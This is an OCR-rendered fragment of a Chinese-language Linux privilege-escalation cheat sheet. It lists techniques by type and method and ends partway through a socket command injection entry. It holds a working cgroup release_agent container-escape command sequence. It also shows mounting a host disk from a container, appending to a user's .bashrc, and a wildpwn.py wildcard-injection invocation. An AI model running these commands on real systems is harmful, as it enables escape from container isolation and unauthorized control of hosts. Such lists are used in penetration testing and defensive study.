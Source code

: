 操作系统：Linux

类型：Abusing Capabilities

方法：

```text
 mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
 echo 1 > /tmp/cgrp/x/notify_on_release
 host_path=`sed -n ‘s/.*\perdir=\([^,]*\).*/\1/p’ /etc/mtab`
 echo “$host_path/cmd” > /tmp/cgrp/release_agent
 echo “#!/bin/sh” > /cmd
 echo “ps aux > $host_path/output” >> /cmd
 chmod a+x /cmd
 sh -c “echo \$\$ > /tmp/cgrp/x/cgroup.procs”
 cat /output
```

  

### **Abusing exposed host directories**

域：No

Local Admin: Yes

操作系统：Linux

类型：Abusing Capabilities

方法：

-   `mknod /dev/sdb1 block 8 17`
-   `mkdir /mnt/host_home`
-   `mount /dev/sdb1 /mnt/host_home`
-   `echo ‘echo “Hello from container land!” 2>&1’ >> /mnt/host_home/eric_chiang_m/.bashrc`

### **Unix Wildcard**

域：No

Local Admin: Yes

操作系统：Linux

类型：Injection

方法：

-   `python wildpwn.py –file /tmp/very_secret_file combined ./pwn_me/`

### **Socket Command Injection**

域：No

Local Admin: Yes

操作系统：Linux

类型：Injection
